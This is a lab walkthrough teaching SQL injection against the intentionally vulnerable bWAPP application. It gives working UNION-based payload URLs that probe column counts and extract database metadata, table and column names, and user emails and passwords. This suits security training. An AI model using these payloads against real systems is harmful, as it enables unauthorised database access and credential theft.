






# `03` Injection - SQL injection

1. Select the vulnerability **SQL Injection (GET/Search)** and click "Hack".
2. Explore the vulnerable form. You will see a form with a field to enter a search query (typically called `title` or `id`). Enter a simple term, such as `test`, and click Search. The URL generated from that search will look like:

    ```bash
    http://<your_ip>/bWAPP/sqli_1.php?title=test&action=search
    ```

    The result of the search will be "not found," which means we're good because "test" doesn't exist in the table, but no error occurred.

    

## Discover the Number of Columns

1. To identify how many columns the original query returns, perform a test using the following injection. Let's try the query with `ORDER BY`:

    ```bash
    http://<your_ip>/bWAPP/sqli_1.php?title=test' ORDER BY 1-- &action=search
    ```

    If you don't see any errors and only a "not found" message, it means the query has at least one column.

2. Increase the number in the `ORDER BY` clause to keep checking until you get a syntax error. For example:

    ```bash
    http://<your_ip>/bWAPP/sqli.php?title=test' ORDER BY 2-- &action=search
    http://<your_ip>/bWAPP/sqli.php?title=test' ORDER BY 3-- &action=search
    http://<your_ip>/bWAPP/sqli.php?title=test' ORDER BY 4-- &action=search
    ```

    When you reach the number where you get an error, it means the query has one column less than the last number you tested successfully.

    

## Injection with UNION SELECT

Once you've determined the number of columns, use a `UNION SELECT` injection to extract information. For example, if there are 7 columns, you can try:

    ```bash
    http://<your_ip>/bWAPP/sqli.php?id=1' UNION SELECT 1, database(), version(), 4, 5, 6, 7-- &action=search
    ```

> This will show you the database name and the SQL server version.



## **Exploring New Functions**

Now that you have obtained the database name and the server version, you can explore more functions to retrieve additional information.

- **Retrieving the current username:**

    ```bash
    http://<your_ip>/bWAPP/sqli_1.php?title=test' UNION SELECT 1, 2, user(), 4, 5, 6, 7-- &action=search
    ```

- **Retrieving table names:**

    Perform a UNION SELECT query to access the `information_schema.tables` table, which contains the table names in the current database. If the total number of columns is 7, use the following URL:

    ```bash
    http://<your_ip>/bWAPP/sqli_1.php?title=test' UNION SELECT 1, table_name, 3, 4, 5, 6, 7 FROM information_schema.tables WHERE table_schema=database()-- &action=search
    ```

    **In this query:**

    - `table_name` is the column that holds the table names.
    - `table_schema=database()` limits the query to the current database.

    > Always make sure that the columns in the UNION SELECT query match the number of columns in the original query. The output should show the names of the available tables in the database.

    

- **Retrieving column names:**

    Once you have the table names, retrieve the columns from a specific table. For example, if one of the tables is named `users`, use:

    ```bash
    http://<your_ip>/bWAPP/sqli_1.php?title=test' UNION SELECT 1, column_name, 3, 4, 5, 6, 7 FROM information_schema.columns WHERE table_name='users'-- &action=search
    ```

    This will return the column names from the `users` table.
    
    

- **Retrieving sensitive data:**

    Finally, extract sensitive information. If you find a column named `password`, you can retrieve the passwords (or their hashes) with the following query:

    ```bash
    http://<your_ip>/bWAPP/sqli_1.php?title=test' UNION SELECT 1, email, password, 4, 5, 6, 7 FROM users-- &action=search
    ```

    This will display the usernames and their passwords.
    
    


If you achieved the expected results, congratulations! Move on to the next lesson. `-->`